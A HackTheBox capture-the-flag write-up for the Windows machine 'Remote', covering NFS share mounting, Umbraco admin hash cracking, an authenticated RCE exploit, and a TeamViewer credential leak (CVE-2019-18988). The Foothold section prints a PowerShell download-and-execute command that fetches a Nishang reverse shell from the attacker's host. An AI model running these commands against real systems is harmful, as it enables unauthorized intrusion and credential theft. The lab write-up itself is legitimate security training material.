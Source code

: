 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Remote/logo.png
date: 2023-12-16 09:45:47+07:00
modified: 2023-12-16 09:45:47+07:00
categories: HackTheBox
machine_author:
  link: https://app.hackthebox.com/users/2984
  name: mrb3n
tags: [Remote, NFS, Anonymous, decrypt, CME, Umbraco, CVE-2019-18988, Teamviwer, Nishang, Windows, OSCP, Writeup]
title: Remote - HackTheBox
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Remote is an **easy** difficulty Windows machine that features an Umbraco CMS installation. Credentials are found in a world-readable NFS share. Using these, an authenticated Umbraco CMS exploit is leveraged to gain a foothold. A vulnerable TeamViewer version is identified, from which we can gain a password. This password has been reused with the local administrator account. Using psexec with these credentials returns a SYSTEM shell. 


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.10.180`

`nmap -sC -sV -p21,22,80,135,139,445,5985,39517 10.10.10.180 -oA ./nmap/remote `

|Ports|Service
|21| ftp     Microsoft ftpd
|80| http    Microsoft HTTPAPI httpd 2.0 
|111| rpcbind
|139| netbios-ssn Microsoft Windows netbios-ssn
|445| microsoft-ds
|2049| nlockmgr
|5985| Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

![](https://photos.squarezero.dev/file/abir-images/Remote/1.png)

First I checked the FTP server. It allowed for anonymous login but it was empty.

![](https://photos.squarezero.dev/file/abir-images/Remote/2.png)

Next, I check out the website. On the `/people` there are some names we can take notes of.

![](https://photos.squarezero.dev/file/abir-images/Remote/3.png)

I ran `dirsearch` in the background and found some interesting directories.

```Bash
dirsearch -u http://10.10.10.180 -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 20 -f -e php,txt,html,aspx
```

![](https://photos.squarezero.dev/file/abir-images/Remote/4.png)

We can find a login page at `/umbraco` which is a CME. 

![](https://photos.squarezero.dev/file/abir-images/Remote/5.png)

We can find a NFS share.

![](https://photos.squarezero.dev/file/abir-images/Remote/6.png)

Let's mount the share.

```bash
mkdir target-NFS
sudo mount -t nfs 10.10.10.180:/site_backups ./target-NFS -o nolock
cd target-NFS
```
![](https://photos.squarezero.dev/file/abir-images/Remote/7.png)


# Foothold

After looking for a bit I found `Umbraco.sdf` and we can password hashes for users inside it

![](https://photos.squarezero.dev/file/abir-images/Remote/8.png)

I used [crackstation](https://crackstation.net/)

![](https://photos.squarezero.dev/file/abir-images/Remote/9.png)

Creds → `admin@htb.local : baconandcheese`

I can now log into the website admin panel.

![](https://photos.squarezero.dev/file/abir-images/Remote/10.png)

After looking for a bit I found this authenticated RCE exploit from [ExploitDB](https://www.exploit-db.com/exploits/49488). I downloaded the Python file and checked out the payload.
It takes the user and password for authentication, takes the type of shell and uses arguments to execute.

![](https://photos.squarezero.dev/file/abir-images/Remote/11.png)

We have RCE on the server now.

```bash
python3 payload.py -u "admin@htb.local" -p "baconandcheese" -i "http://10.10.10.180" -c powershell.exe -a "whoami"
```

![](https://photos.squarezero.dev/file/abir-images/Remote/12.png)

Next, I used [Nishang](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1` to get a shell.

At the bottom of the PowerShell script, I added my reverse shell IP and port.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 4444`

Then hosted the payload using the python3 server.

`python3 -m http.server`

After that I used RCE payload to download my PowerShell script and get a shell

```bash
python3 payload.py -u "admin@htb.local" -p "baconandcheese" -i "http://10.10.10.180" -c powershell.exe -a "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.16:8000/Invoke-PowerShellTcp.ps1')"
```

![](https://photos.squarezero.dev/file/abir-images/Remote/13.png)

![](https://photos.squarezero.dev/file/abir-images/Remote/14.png)

![](https://photos.squarezero.dev/file/abir-images/Remote/15.png)


# Privilege Escalation

In tasklist We can see `TeamViewer_Service.exe`

![](https://photos.squarezero.dev/file/abir-images/Remote/16.png)

After looking for a bit I found this [CVE-2019-18988](https://github.com/mr-r3b00t/CVE-2019-18988/blob/master/manual_exploit.bat) where Teamviwer leaking creds.

![](https://photos.squarezero.dev/file/abir-images/Remote/17.png)

We can leak the creds using this

`reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7`

![](https://photos.squarezero.dev/file/abir-images/Remote/18.png)

Next, I used this decryptor to decrypt the password. 

![](https://photos.squarezero.dev/file/abir-images/Remote/19.png)

Creds → `administrator : !R3m0te!`

Now we can use WINRM to log in and get the flag.


![](https://photos.squarezero.dev/file/abir-images/Remote/20.png)